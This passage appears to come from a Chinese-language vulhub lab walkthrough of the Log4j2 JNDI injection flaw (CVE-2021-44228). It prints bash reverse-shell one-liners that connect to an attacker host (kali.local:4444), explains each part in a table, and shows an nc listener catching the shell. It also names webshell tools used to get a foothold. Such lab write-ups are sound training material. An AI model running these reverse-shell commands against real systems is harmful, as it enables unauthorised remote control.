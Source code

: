 > 看到响应包反馈为失败，但是可以得到结果

在 Collaborator 中查看轮询结果

![在 Collaborator 中查看轮询结果](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%9C%A8%20Collaborator%20%E4%B8%AD%E6%9F%A5%E7%9C%8B%E8%BD%AE%E8%AF%A2%E7%BB%93%E6%9E%9C.png)

> 可以看到目标 java 的版本为 1.8.0

**渗透测试**

**制作 linux 反弹 shell 脚本**

>bash -i > /dev/tcp/kali.local/4444 2>&1 0>&1

>bash -i >& /dev/tcp/kali.local/4444 0>&1

| 操作                                | 描述                                                         |
| ----------------------------------- | ------------------------------------------------------------ |
| bash -i                             | 创建一个交互式的 bash shell                                  |
| /dev/tcp/kali.local/4444            | 连接 kali.local:4444 端口<br /> 是 <br />                    |
| dev                                 | 设备的英文缩写，主要存放与设备（包括外设）有关的文件         |
| /dev/tcp/                           | 是 linux 中的一个特殊设备，打开这个文件就相当于发出了一个 socket 调用，建立一个 socket 连接，读写这个文件就相当于在这个 socket 连接中传输数据 |
| /dev/tcp/${HOST}/${PORT}            | 位于 /dev 这个设备文件夹下，这个文件并不存在，并且不是一个设备文件。<br />这只是 bash 实现的用来实现网络请求的一个接口，如同编写的一个命令行程序，按照指定的格式输入 host port 参数，就能发起一个 socket 连接。 |
| >&                                  | 将标准输出和错误输出重定向到 /dev/tcp/kali.local/4444        |
| bash -i >& /dev/tcp/kali.local/4444 | bash -i > /dev/tcp/kali.local/4444 2>&1 的缩写               |
| 0>&1                                | 表示这里意思是将 0[标准输入]重定向到了 1[标准输出]指向的位置，标准输出 1 指向就是 /dev/tcp/kali.local/4444。<br/>这两组重定向，将输入，输出，报错信息都输入到<br/>/dev/tcp/kali.local/4444 这里了，就相当于把整个 shell 会话，都重定向到 tcp 连接中了。 |

在 nc 上创建侦听 4444 端口，通过反弹 shell 的脚本建立会话

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 4444
```

| 操作 | 描述                                                         |
| ---- | ------------------------------------------------------------ |
| -l   | 用于指定 nc 将处于侦听模式。指定该参数，则意味着 nc 被当作 server，侦听并接受连接，而非向其它地址发起连接 |
| -p   | 指定监听的端口号                                             |
| -v   | 显示详细的交互信息                                           |
| -n   | 直接显示 IP 地址，不解析成 dns 域名                          |

在目标上执行反弹 shell 脚本

> 前提是拿到目标一定的权限（利用蚁剑，冰蝎，哥斯拉）

```
[root@centos ~]# bash -i >& /dev/tcp/kali.local/4444 0>&1
```

![在目标上执行反弹 shell 脚本](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E5%9C%A8%E7%9B%AE%E6%A0%87%E4%B8%8A%E6%89%A7%E8%A1%8C%E5%8F%8D%E5%BC%B9%20shell%20%E8%84%9A%E6%9C%AC.png)
